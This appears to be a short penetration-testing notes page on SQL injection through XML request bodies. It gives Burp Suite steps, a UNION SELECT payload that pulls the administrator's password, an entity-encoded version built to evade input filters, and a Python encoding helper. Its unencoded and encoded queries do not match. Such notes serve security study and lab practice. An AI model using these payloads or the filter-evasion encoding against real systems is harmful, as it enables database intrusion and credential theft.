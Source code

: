 
## XML

**Steps**
- Capture the request from BrupSuite (displaying some sort of XML)

- Find the number of column (You can simply guest from the output of the original request)

- trying to bypass some filter, you might see that simply encoding the request (URL might not work, this is because XML use a specific encoding (More information ---> [HERE](https://en.wikipedia.org/wiki/List_of_XML_and_HTML_character_entity_references)))
	- Also, here we are trying to encode character (this is different then simple url encoding)
	- Using (&#xCHARACTER;), we can see that SQL injection is valid

Query Example
```
#Not Encoded
4 UNION SELECT password WHERE username='administator'-- 

$Encoded
4&#x20;&#x55;NION&#x20;&#x53;ELECT&#x20;password&#x20;&#x46;ROM&#x20;users&#x20;&#x57;HERE&#x20;username=&#x27;administrator&#x27;&#x2D;&#x2D;&#x20;
```


## Tool (Python)

XML encoder (Possible to modify it to encode character)
``` Python
import xml.sax.saxutils

# Define the string to be encoded
string = "this is a string to be XML encoded"

# Encode the string using the escape() method
encoded_string = xml.sax.saxutils.escape(string, {
    "'": "&#x27;",  # Single quote
    '"': "&#x22;",  # Double quote
    "&": "&#x26;",  # Ampersand
    "<": "&#x3c;",  # Less than
    ">": "&#x3e;",  # Greater than
    " ": "&#x20;"   # Space
})

# Print the encoded string
print(encoded_string)
```